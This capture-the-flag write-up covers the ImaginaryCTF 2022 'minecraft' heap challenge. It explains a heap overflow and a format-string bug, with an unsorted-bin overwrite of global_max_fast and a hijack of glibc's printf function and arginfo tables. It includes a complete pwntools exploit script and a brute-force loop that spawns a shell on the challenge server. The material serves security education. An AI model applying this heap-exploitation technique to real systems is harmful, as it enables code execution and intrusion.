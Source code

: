 # ImaginaryCTF 2022 - minecraft

Original challenge: https://2022.imaginaryctf.org/Challenges

You can also download challenge files in my repo: [minecraft.zip](minecraft.zip)

There will be 3 files in zip:
- ld-2.27.so
- libc.so.6
- vuln

Download and extract, then use `pwninit` to patch libc with binary and we can get started!

# 3. Exploit

At first, we have a heap overflow if we malloc a chunk at index 16 first, then a chunk at index 0, the address of second chunk will overwrite the size of first chunk. Hence we can use replace to overwrite stuff.

But after searching on how2heap, we can see no technique can be used because we also have another bug `Format String` when we leak poem. I tried to debug the function `_Exit()` after that printf but `_Exit()` doesn't use any address in any rw section so we cannot attack `_Exit()` hook or something like that.

Searching for `house of "heap" with "printf"`, we came up with a blog of `pre-yudai` [here](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507).

Due to no libc address, we can use exe stuff. The first try is to overwrite `global_max_fast` by overwrite bk of a freed chunk in unsorted bin as the blog said. Because no libc address can be get so just bruteforce least 2 significant bytes. But before we bruteforce, just run program in static address to be easier when attacking.

Then we edit, modify and overwrite `__printf_arginfo_table` and `__printf_function_table` to execute 1 address we want. The source code to check if `__printf_arginfo_table` and `__printf_function_table` is null can be found [here](https://code.woboq.org/userspace/glibc/stdio-common/printf-parsemb.c.html#55):

```c
if (__builtin_expect (__printf_function_table == NULL, 1)
  || spec->info.spec > UCHAR_MAX
  || __printf_arginfo_table[spec->info.spec] == NULL
  /* We don't try to get the types for all arguments if the format
     uses more than one.  The normal case is covered though.  If
     the call returns -1 we continue with the normal specifiers.  */
  || (int) (spec->ndata_args = (*__printf_arginfo_table[spec->info.spec])
                               (&spec->info, 1, &spec->data_arg_type,
                                &spec->size)) < 0)
{
    ...
}
```

It will first check `__printf_function_table` and if it's not null, it then will check `__printf_arginfo_table` and if it's not null too, the function of `__printf_arginfo_table[spec->info.spec]` will be executed. And because we have overwriten `__printf_arginfo_table[spec->info.spec]` with our desired address, we can execute any address we want.

The only problem is how to get the string `/bin/sh` or just `sh`. After reading source code of `__parse_one_specwc` [here](https://code.woboq.org/userspace/glibc/stdio-common/printf-parsemb.c.html#55), which is an internal function of printf, we can see that rdi is `spec->info.prec` when our function, which is store in `__printf_arginfo_table[spec->info.spec]`, is executed. Hence, we can have string `sh` in rdi by inputting number and this code of libc will help us parse from number to 2 byte `sh`:

```c
/* Get the precision.  */
spec -> prec_arg = -1;
/* -1 means none given; 0 means explicit 0.  */
spec -> info.prec = -1;
if ( * format == L_('.')) {
    ++format;
    if ( * format == L_('*')) {
        /* The precision is given in an argument.  */
        const UCHAR_T * begin = ++format;
        if (ISDIGIT( * format)) {
            n = read_int( & format);
            if (n != 0 && * format == L_('$')) {
                if (n != -1) {
                    spec -> prec_arg = n - 1;
                    * max_ref_arg = MAX( * max_ref_arg, n);
                }
                ++format;
            }
        }
        if (spec -> prec_arg < 0) {
            /* Not in a positional parameter.  */
            spec -> prec_arg = posn++;
            ++nargs;
            format = begin;
        }
    } else if (ISDIGIT( * format)) {
        int n = read_int( & format);
        if (n != -1)
            spec -> info.prec = n;         <--------- This one
    } else
        /* "%.?" is treated like "%.0?".  */
        spec -> info.prec = 0;
}
```

Solve script is:

```python
#!/usr/bin/python3

from pwn import *
import subprocess

def placeblock(idx, len, data):
    p.sendlineafter(b'poem\n', b'p')
    p.sendlineafter(b'idx: \n', str(idx).encode())
    p.sendlineafter(b'len: \n', str(len).encode())
    p.sendafter(b'block: \n', data)

def breakblock(idx, keep=b'n'):
    p.sendlineafter(b'poem\n', b'b')
    p.sendlineafter(b'idx: \n', str(idx).encode())
    p.sendlineafter(b'inventory? \n', keep)

def replaceblock(idx, data):
    p.sendlineafter(b'poem\n', b'r')
    p.sendlineafter(b'idx: \n', str(idx).encode())
    p.sendafter(b'block: \n', data)

def leakpoem(idx):
    p.sendlineafter(b'poem\n', b'l')
    p.sendlineafter(b'idx: \n', str(idx).encode())

exe = ELF('./vuln_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
context.binary = exe
context.log_level = 'debug'

def offset2size(offset):
    return offset * 2 - 0x10

# Cannot overwrite _Exit due to no variable is stored
__printf_function_table_offset = 0x3f0738
__printf_function_arginfo_offset = 0x3ec870
global_max_fast_offset = 0x3ed940
main_arena = 0x3ebc40

p = process(exe.path)
# p = remote('golf.chal.imaginaryctf.org', 1337)

placeblock(0, 0x500, b'0'*8)
placeblock(1, offset2size(__printf_function_table_offset - main_arena), b'1'*8)
placeblock(2, offset2size(__printf_function_arginfo_offset - main_arena), p64(0)*0x62 + p64(0x401110))
placeblock(3, 0x500, f'%.26739d\x00'.encode() + b'A'*8)

breakblock(0, b'y')
replaceblock(0, b'A'*8 + p16(0x6940 - 0x10))
placeblock(0, 0x500, f'%.26739d\x00'.encode())

breakblock(1)
breakblock(2)

leakpoem(3)

p.interactive()
```

To get the padding for `__printf_function_arginfo`, debug with gdb and set breakpoint at `__parse_one_specmb+1568`. Run until that and we know the offset will be the ascii of `d` (from our input) multiplied by 8. Hence, padding will be `0x62` because it takes the address containing metadata of that chunk too.

When it can run locally, put the code inside a while loop and loop until we get the shell:

```python
while True:
    # p = process(exe.path)
    p = remote('minecraft.chal.imaginaryctf.org', 1337)

    placeblock(0, 0x500, b'0'*8)
    placeblock(1, offset2size(__printf_function_table_offset - main_arena), b'1'*8)
    placeblock(2, offset2size(__printf_function_arginfo_offset - main_arena), p64(0)*0x62 + p64(0x401110))
    placeblock(3, 0x500, f'%.26739d\x00'.encode() + b'A'*8)

    breakblock(0, b'y')
    replaceblock(0, b'A'*8 + p16(0x6940 - 0x10))
    try:
        placeblock(0, 0x500, f'%.26739d\x00'.encode())
    except:
        p.close()
        continue

    try:
        breakblock(1)
        breakblock(2)
    except:
        p.close()
        continue

    leakpoem(3)

    p.interactive()
```

Flag is `ictf{pr1ntf_is_p0werful_86b21f38}`